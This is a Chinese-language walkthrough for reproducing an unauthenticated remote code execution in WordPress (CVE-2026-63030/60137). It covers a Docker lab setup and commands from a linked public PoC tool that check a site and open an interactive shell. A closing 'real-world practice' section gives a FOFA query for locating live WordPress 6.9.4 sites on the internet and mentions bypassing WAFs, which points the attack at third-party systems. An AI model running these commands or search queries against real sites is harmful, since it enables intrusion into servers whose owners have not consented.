




## CVE-2026-63030

### 环境配置

wordPress是开源内容管理系统，很多CMS系统都是基于wordpress构建的

- 漏洞范围

```
CVE-2026-63030 & CVE-2026-60137
```

能够实现在未登录情况下的RCE

```
WordPress 6.8.0-6.85
WordPress 6.9.0 – 6.9.4
WordPress 7.0.0 – 7.0.1
```

- 环境搭建

创建共享网络

```
docker network create wp-net-new
```

创建wordpress和数据库容器

```
docker run -d --name wp69_app --network wp-net-new -p 8083:80 -e WORDPRESS_DB_HOST=wp_mariadb:3306 -e WORDPRESS_DB_USER=root -e WORDPRESS_DB_PASSWORD=root -e WORDPRESS_DB_NAME=wordpress wordpress:6.9.0
```

```
docker run -d --name wp_mariadb --network wp-net-new -e MYSQL_ROOT_PASSWORD=root -e MYSQL_DATABASE=wordpress mariadb:10.11
```

之后访问`http://localhost:8083`

### 漏洞复现

工具链接

```
https://github.com/Icex0/wp2shell-poc
```

```
python wp2shell.py check http://127.0.0.1:8083/
```



```
python ../wp2shell.py shell http://127.0.0.1:8083/ -i
```

执行后会自动删除创建的admin用户和插件



### 实战演练

fofa搜索语法

```
app="WordPress" && body="wp-login.php" &&  body="content=\"WordPress 6.9.4\""
```

一般来说，wordpress的源码类似：



如果直接执行命令基本会有WAF，很多时候在探测的时候就被拦截了，需要绕过WAF




